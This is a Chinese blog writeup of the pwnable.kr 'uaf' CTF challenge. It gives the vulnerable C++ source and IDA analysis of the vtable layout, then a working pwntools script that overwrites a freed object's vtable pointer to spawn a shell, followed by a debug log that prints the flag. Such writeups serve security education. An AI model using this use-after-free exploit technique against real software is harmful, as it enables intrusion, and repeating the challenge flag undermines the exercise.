

<!--yml
category: 未分类
date: 2022-04-26 14:39:46
-->

# PWN uaf [pwnable.kr]CTF writeup题解系列13_3riC5r的博客-CSDN博客

> 来源：[https://blog.csdn.net/fastergohome/article/details/103804834](https://blog.csdn.net/fastergohome/article/details/103804834)

**目录**

[0x01题目](#0x01%E9%A2%98%E7%9B%AE)

[0x02解题思路](#0x02%E8%A7%A3%E9%A2%98%E6%80%9D%E8%B7%AF)

[0x03题解](#0x03%E9%A2%98%E8%A7%A3)

* * *

# 0x01题目




# 0x02解题思路

题目都已经介绍了这是一道Use After Free的题目，那我们就不用多想了，先看看题目主要内容

```
root@mypwn:/ctf/work/pwnable.kr# ssh uaf@pwnable.kr -p2222
uaf@pwnable.kr's password: 
 ____  __    __  ____    ____  ____   _        ___      __  _  ____  
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \ 
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    / 
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \ 
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87@gatech.edu
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Wed Jan  1 22:34:25 2020 from 220.116.190.78
uaf@prowl:~$ ls -la
total 44
drwxr-x---   5 root uaf      4096 Oct 23  2016 .
drwxr-xr-x 116 root root     4096 Nov 12 21:34 ..
d---------   2 root root     4096 Sep 21  2015 .bash_history
-rw-r-----   1 root uaf_pwn    22 Sep 26  2015 flag
dr-xr-xr-x   2 root root     4096 Sep 21  2015 .irssi
drwxr-xr-x   2 root root     4096 Oct 23  2016 .pwntools-cache
-r-xr-sr-x   1 root uaf_pwn 15463 Sep 26  2015 uaf
-rw-r--r--   1 root root     1431 Sep 26  2015 uaf.cpp
```

继续看看源代码

```
#include <fcntl.h>
#include <iostream> 
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
	virtual void give_shell(){
		system("/bin/sh");
	}
protected:
	int age;
	string name;
public:
	virtual void introduce(){
		cout << "My name is " << name << endl;
		cout << "I am " << age << " years old" << endl;
	}
};

class Man: public Human{
public:
	Man(string name, int age){
		this->name = name;
		this->age = age;
        }
        virtual void introduce(){
		Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
	Human* m = new Man("Jack", 25);
	Human* w = new Woman("Jill", 21);

	size_t len;
	char* data;
	unsigned int op;
	while(1){
		cout << "1\. use\n2\. after\n3\. free\n";
		cin >> op;

		switch(op){
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}

	return 0;	
} 
```

非常清晰的一道UAF题目，我们需要通过参数来作为输入。

打开ida看下内存结构和类指针情况

main函数中类的实例构造：

```
 v10 = argv;
  std::allocator<char>::allocator(&v18, argv, envp);
  std::string::string(&v11, "Jack", &v18);
  v3 = (Human *)operator new(0x18uLL);
  Man::Man(v3, (__int64)&v11, 25);
  v13 = v3;
  std::string::~string((std::string *)&v11);
  std::allocator<char>::~allocator(&v18);
  std::allocator<char>::allocator(&v19, &v11, v4);
  std::string::string(&v12, "Jill", &v19);
  v5 = (Human *)operator new(0x18uLL);
  Woman::Woman(v5, (__int64)&v12, 21);
  v14 = v5;
  std::string::~string((std::string *)&v12);
  std::allocator<char>::~allocator(&v19);
```

 从上面这里可以确定分配的内存是0x18。

在看下初始化的函数

```
Human *__fastcall Man::Man(Human *a1, __int64 a2, int a3)
{
  int v3; // ST0C_4
  Human *result; // rax

  v3 = a3;
  Human::Human(a1);
  *(_QWORD *)a1 = off_401570;
  std::string::operator=((char *)a1 + 16, a2);
  result = a1;
  *((_DWORD *)a1 + 2) = v3;
  return result;
}
```

在第一个8字节中存放的是 off_401570，这是一个地址，我们跟进去看看

```
.rodata:0000000000401570 off_401570      dq offset _ZN5Human10give_shellEv
.rodata:0000000000401570                                         ; DATA XREF: Man::Man(std::string,int)+24↑o
.rodata:0000000000401570                                         ; Human::give_shell(void)
.rodata:0000000000401578                 dq offset _ZN3Man9introduceEv ; Man::introduce(void)
```

注意到是一个虚函数指针列表，我们需要利用的函数，从给的源代码来看，是需要将introduce函数的调用，伪造成对give_shell函数的调用

按照虚函数列表的情况，我们需要给到的地址应该是 off_401570-8。

那这样情况就已经很清楚了，继续就构建python脚本

# 0x03题解

```
#!python
#coding:utf8

from pwn import *

context.log_level = 'debug'
process_name = 'uaf'
elf = ELF(process_name)

class_base_addr = 0x401548

args = [process_name]
args.append(str(0x18))
fileName = '/tmp/uaf.txt' #如果服务器上不能保存这个文件，请自行创建子目录
args.append(fileName)
payload = p64(class_base_addr)+'A'*8

debug = 0
if debug == 1:
	f = open(fileName,"wb")
	f.write(payload)
	f.close()
	p = process(argv=args, env={'LD_LIBRARY_PATH':'./'})
else:
	s = ssh(host='pwnable.kr',user=process_name,password='guest',port=2222)
	p = s.process(argv=args, executable='/home/'+process_name+'/'+process_name)
	s.write(fileName, payload)

p.sendlineafter('free\n', '3')
p.sendlineafter('free\n', '2')
p.sendlineafter('free\n', '2')
p.sendlineafter('free\n', '1')
# p.recv()
p.interactive()
```

脚本可以本地测试，也可以直接远程连接，不需要再连上ssh到服务器后执行。

执行结果如下：

```
root@mypwn:/ctf/work/pwnable.kr# python uaf.py 
[DEBUG] PLT 0x400c4c _ZNSsC1Ev
[DEBUG] PLT 0x400c60 _ZNSolsEi
[DEBUG] PLT 0x400c70 _Znam
[DEBUG] PLT 0x400c80 _ZdlPv
[DEBUG] PLT 0x400c90 _ZNSt8ios_base4InitC1Ev
[DEBUG] PLT 0x400ca0 read
[DEBUG] PLT 0x400cb0 __libc_start_main
[DEBUG] PLT 0x400cc0 system
[DEBUG] PLT 0x400cd0 __cxa_atexit
[DEBUG] PLT 0x400ce0 _ZNSt8ios_base4InitD1Ev
[DEBUG] PLT 0x400cf0 _ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc
[DEBUG] PLT 0x400d00 _ZNSsD1Ev
[DEBUG] PLT 0x400d10 _ZNSsC1EPKcRKSaIcE
[DEBUG] PLT 0x400d20 atoi
[DEBUG] PLT 0x400d30 _ZStlsIcSt11char_traitsIcESaIcEERSt13basic_ostreamIT_T0_ES7_RKSbIS4_S5_T1_E
[DEBUG] PLT 0x400d40 _ZNSaIcED1Ev
[DEBUG] PLT 0x400d50 _ZNSolsEPFRSoS_E
[DEBUG] PLT 0x400d60 _ZSt4endlIcSt11char_traitsIcEERSt13basic_ostreamIT_T0_ES6_
[DEBUG] PLT 0x400d70 _ZNSaIcEC1Ev
[DEBUG] PLT 0x400d80 __gxx_personality_v0
[DEBUG] PLT 0x400d90 _Znwm
[DEBUG] PLT 0x400da0 _Unwind_Resume
[DEBUG] PLT 0x400db0 _ZNSsaSERKSs
[DEBUG] PLT 0x400dc0 open
[DEBUG] PLT 0x400dd0 _ZNSirsERj
[*] '/ctf/work/pwnable.kr/uaf'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Connecting to pwnable.kr on port 2222: Done
[*] input2@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
[DEBUG] Created execve script:
    #!/usr/bin/env python2
    import os, sys, ctypes, resource, platform, stat
    from collections import OrderedDict
    exe   = '/home/uaf/uaf'
    argv  = ['uaf', '24', '/tmp/uaf.txt']
    env   = None

    os.chdir('.')

    if env is not None:
        os.environ.clear()
        os.environ.update(env)
    else:
        env = os.environ

    def is_exe(path):
        return os.path.isfile(path) and os.access(path, os.X_OK)

    PATH = os.environ.get('PATH','').split(os.pathsep)

    if os.path.sep not in exe and not is_exe(exe):
        for path in PATH:
            test_path = os.path.join(path, exe)
            if is_exe(test_path):
                exe = test_path
                break

    if not is_exe(exe):
        sys.stderr.write('3\n')
        sys.stderr.write("{} is not executable or does not exist in $PATH: {}".format(exe,PATH))
        sys.exit(-1)

    if not True:
        PR_SET_NO_NEW_PRIVS = 38
        result = ctypes.CDLL('libc.so.6').prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0)

        if result != 0:
            sys.stdout.write('3\n')
            sys.stdout.write("Could not disable setuid: prctl(PR_SET_NO_NEW_PRIVS) failed")
            sys.exit(-1)

    try:
        PR_SET_PTRACER = 0x59616d61
        PR_SET_PTRACER_ANY = -1
        ctypes.CDLL('libc.so.6').prctl(PR_SET_PTRACER, PR_SET_PTRACER_ANY, 0, 0, 0)
    except Exception:
        pass

    # Determine what UID the process will execute as
    # This is used for locating apport core dumps
    suid = os.getuid()
    sgid = os.getgid()
    st = os.stat(exe)
    if True:
        if (st.st_mode & stat.S_ISUID):
            suid = st.st_uid
        if (st.st_mode & stat.S_ISGID):
            sgid = st.st_gid

    if sys.argv[-1] == 'check':
        sys.stdout.write("1\n")
        sys.stdout.write(str(os.getpid()) + "\n")
        sys.stdout.write(str(os.getuid()) + "\n")
        sys.stdout.write(str(os.getgid()) + "\n")
        sys.stdout.write(str(suid) + "\n")
        sys.stdout.write(str(sgid) + "\n")
        sys.stdout.write(os.path.realpath(exe) + '\x00')
        sys.stdout.flush()

    for fd, newfd in {0: 0, 1: 1, 2:2}.items():
        if newfd is None:
            close(fd)
        elif isinstance(newfd, str):
            os.close(fd)
            os.open(newfd, os.O_RDONLY if fd == 0 else (os.O_RDWR|os.O_CREAT))
        elif isinstance(newfd, int) and newfd != fd:
            os.dup2(fd, newfd)

    if not True:
        if platform.system().lower() == 'linux' and True is not True:
            ADDR_NO_RANDOMIZE = 0x0040000
            ctypes.CDLL('libc.so.6').personality(ADDR_NO_RANDOMIZE)

        resource.setrlimit(resource.RLIMIT_STACK, (-1, -1))

    # Attempt to dump ALL core file regions
    try:
        with open('/proc/self/coredump_filter', 'w') as core_filter:
            core_filter.write('0x3f\n')
    except Exception:
        pass

    # Assume that the user would prefer to have core dumps.
    try:
        resource.setrlimit(resource.RLIMIT_CORE, (-1, -1))
    except Exception:
        pass

    def func(): pass
    apply(func, [])

    os.execve(exe, argv, env)
[+] Starting remote process execve('/home/uaf/uaf', ['uaf', '24', '/tmp/uaf.txt'], os.environ) on pwnable.kr: pid 378667
[DEBUG] Received 0x43 bytes:
    00000000  31 0a 33 37  38 36 36 37  0a 31 30 32  39 0a 31 30  │1·37│8667│·102│9·10│
    00000010  32 39 0a 31  30 32 39 0a  31 30 33 30  0a 2f 68 6f  │29·1│029·│1030│·/ho│
    00000020  6d 65 2f 75  61 66 2f 75  61 66 00 31  2e 20 75 73  │me/u│af/u│af·1│. us│
    00000030  65 0a 32 2e  20 61 66 74  65 72 0a 33  2e 20 66 72  │e·2.│ aft│er·3│. fr│
    00000040  65 65 0a                                            │ee·│
    00000043
[DEBUG] Sent 0x2 bytes:
    '3\n'
[DEBUG] Received 0x18 bytes:
    '1\. use\n'
    '2\. after\n'
    '3\. free\n'
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Received 0x2f bytes:
    'your data is allocated\n'
    '1\. use\n'
    '2\. after\n'
    '3\. free\n'
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Received 0x2f bytes:
    'your data is allocated\n'
    '1\. use\n'
    '2\. after\n'
    '3\. free\n'
[DEBUG] Sent 0x2 bytes:
    '1\n'
[*] Switching to interactive mode
[DEBUG] Received 0x2 bytes:
    '$ '
$ $ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0x15 bytes:
    'flag  uaf  uaf.cpp\n'
    '$ '
flag  uaf  uaf.cpp
$ $ cat flag
[DEBUG] Sent 0x9 bytes:
    'cat flag\n'
[DEBUG] Received 0x18 bytes:
    'yay_f1ag_aft3r_pwning\n'
    '$ '
yay_f1ag_aft3r_pwning
$ [*] Got EOF while reading in interactive
$ 
```